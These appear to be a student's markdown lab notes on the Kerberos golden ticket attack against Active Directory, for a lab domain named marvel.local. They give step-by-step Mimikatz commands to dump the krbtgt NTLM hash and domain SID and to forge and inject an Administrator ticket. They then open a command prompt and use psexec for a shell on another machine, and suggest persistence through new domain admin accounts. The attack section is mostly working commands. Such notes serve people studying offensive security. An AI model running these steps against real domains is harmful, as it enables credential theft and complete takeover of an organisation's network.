



**What**?  
- When we compromise the krbtgt account, we own the domain  
- We can request access to any  resources or system on the domain  
- Golden tickets == complete access to every machine  

**How**?  
- *Mimikatz*  
- use `privilege::debug`  
- do a `lsadump::lsa`  
  
What we need for krbtgt account?  
- krbtgt NTLM Hash  
- Domain SID  
    

With a Golden Ticket, we can now access other machines from the command line  


## Lab

##### Step 1:  
In the directory where mimikatz.exe is present -> `mimikatz.exe`  

##### Step 2:  
`privilege::debug`  

##### Step 3:  
Get the SID and NTLM hash from -> `lsadump::lsa /inject /name:krbtgt`  




##### Step 4:
and Finally..  
```
kerberos::golden /User:Administrator /domain:marvel.local /sid:<Paste SID> /krbtgt:<Paste NTLM> /id:500 /ptt
```

Where,  
**/User** -> can be anything, does not have to be a real user ('administrator' is an example here)  
**/domain** -> this has to be a real domain  
**/sid** -> paste the sid of krbtgt here  
**/krbtgt** -> this is the name and after that paste the hash  
**/id** -> RID (relative identifier) 500 is used. *An RID 500 account in Windows refers to the built-in Administrator account.*  
**/ptt** -> pass the ticket  
	1. generate a golden ticket  
	2. pass that ticket to the current session
	3. use the ticket to open a command prompt
	4. This command prompt can access any computer in the AD

  

NOW WE HAVE A TICKET SO WE CAN DO SOMETHING LIKE:  
##### Step 5:  
`misc::cmd`  

-> this will open a command prompt using the golden ticket in the same session  
now we should be able to access any computer  
Eg: `dir \\THEPUNISHER\c$`  

  

-> Download psexec.exe and run it in this cmd -> `psexec.exe \\THEPUNISHER cmd.exe` -> this gives a shell  


## What next:  

-> make persistance using a golden ticker, like making a domain admin user (NOISY)  
-> silver ticket? (golden tickets are less noisy but sometimes they get picked up so a silver ticket can be a useful thing)  
